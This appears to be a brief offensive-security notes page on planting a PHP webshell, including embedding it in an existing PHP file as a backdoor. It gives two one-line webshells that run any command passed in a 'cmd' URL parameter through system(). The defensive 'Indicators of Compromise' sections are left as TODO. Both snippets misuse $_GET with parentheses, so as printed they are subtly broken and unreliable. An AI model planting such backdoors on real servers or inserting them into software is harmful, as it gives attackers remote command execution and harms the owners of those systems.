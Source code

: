 # Basic PHP Webshell Oneliner
## Summary

One of the easiest methods to obtain access to a PHP enabled app, is to somehow plant a webshell onto the server. There are many fancy PHP webshells out there, but this page will cover a basic one that is easy to remember and type, and is easy to embed into an existing PHP file as a backdoor.

## Prerequisites

A PHP enabled server, typically apache.

## Setup

To set this up, all that is needed is access to a PHP enabled server somehow. This can be through a vulnerability or any other type of access.

## Execution

### Method 1 - Shortest Possible

This is the shortest possible PHP webshell, the output from commands ran are not very pretty and will likely get mangled:

```php
<?php system($_GET('cmd')); ?>
```

#### Indicators of Compromise

TODO

### Method 2 - Slightly Prettier

This basic webshell wraps the output of the command into HTML pre tags, this will usually help prevent the output of the command from being mangled on the page.

```php
<?php echo "<pre>"; system($_GET('cmd')); echo "</pre>"; ?>
```

#### Indicators of Compromise

TODO